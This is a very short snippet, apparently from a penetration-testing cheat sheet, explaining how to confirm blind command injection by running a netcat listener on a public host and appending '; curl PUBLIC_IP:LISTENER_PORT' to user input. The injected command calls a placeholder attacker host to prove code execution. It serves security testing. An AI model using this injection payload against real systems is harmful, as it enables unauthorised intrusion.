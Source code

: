 To test for code execution, set up a listener on a host with a public IP like so:
	`nc -lvnp 8000`

End the command and curl to test: 
	`USER_INPUT; curl PUBLIC_IP:LISTENER_PORT`